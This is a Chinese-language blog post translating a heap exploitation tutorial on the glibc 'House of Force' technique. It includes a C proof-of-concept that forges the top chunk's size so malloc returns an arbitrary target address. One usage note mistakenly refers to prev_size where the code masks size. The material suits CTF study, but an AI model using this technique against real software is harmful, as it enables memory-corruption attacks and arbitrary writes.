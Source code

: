 ```yaml
---
title: Heap Exploitation系列翻译-15 House of Force
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# House of Force

与'House of Lore'类似, 这项攻击重点在于从'malloc'返回一个任意的指针. 伪造堆块攻击讨论的是fastbins的情况而'House of Lore'讨论的则是small bin的情况. 在这里'House of Force'则是利用了'top chunk'. topmost chunk 也被称作 'wilderness', 它以堆的末尾作为边界(比如, 它是堆的最大地址)并且不会出现在任何bin链中. 它符合相同的堆块结构格式.

这项攻击技术假定在top chunk的首部存在溢出. 它的`size`可以被修改为一个非常大的值(在本例中是`-1`), 这能够确保所有初始申请将会使用top chunk来满足要求, 而非依赖于`mmap`. 在64位系统, `-1`即是`0xFFFFFFFFFFFFFFFF`, 一个这样大小的堆块可以覆盖程序的整个内存空间. 让我们假定一下, 攻击者希望'malloc'返回地址'P'. 现在, 任何大小为`&top_chunk` - `P`的malloc调用都会使用top chunk来满足. 要注意, `P`可以在`top_chunk`之前或之后. 如果是在前面, 结果就得是一个很大的整数(因为size是无符号的). 但它仍旧是小于`-1`的. 在发生完整数溢出并且malloc使用top chunk很好的满足申请需求后, 此刻, top chunk就会指向`P`并且之后的任何申请都会直接返回`P`!

考虑以下示例代码(下载完整版本: [这里](/files/heap-exploition/files/house_of_force.c)):

```c
// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc"; // At 0x601060

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

struct chunk_structure *chunk, *top_chunk;
unsigned long long *ptr;
size_t requestSize, allotedSize;

// First, request a chunk, so that we can get a pointer to top chunk
ptr = malloc(256);                                                    // At 0x131a010
chunk = (struct chunk_structure *)(ptr - 2);                          // At 0x131a000

// lower three bits of chunk->size are flags
allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

// top chunk will be just next to 'ptr'
top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);  // At 0x131a110

// here, attacker will overflow the 'size' parameter of top chunk
top_chunk->size = -1;       // Maximum size

// Might result in an integer overflow, doesn't matter
requestSize = (size_t)victim            // The target address that malloc should return
                - (size_t)top_chunk     // The present address of the top chunk
                - 2*sizeof(long long)   // Size of 'size' and 'prev_size'
                - sizeof(long long);    // Additional buffer

// This also needs to be forced by the attacker
// This will advance the top_chunk ahead by (requestSize+header+additional buffer)
// Making it point to 'victim'
malloc(requestSize);                                                  // At 0x131a120

// The top chunk again will service the request and return 'victim'
ptr = malloc(100);                                // At 0x601060 !! (Same as 'victim')
```

'malloc' 返回一个指向`victim`的地址

以下几样需要我们注意:

1. 当计算`to_chunk`的准确指针时, 要将prev_size的三个最低位清零, 以获得准确的大小.
2. 当计算requestSize, 需要算进一个额外的缓冲区, 这只是用于抵消分配堆块时进行的四舍五入. 顺便一提, 在这种情况下, malloc 会返回一个比申请大小多8字节的堆块. 要注意, 这是与机器相关的.
3. `victim`可以是任意地址(堆,栈,bss段等地址)
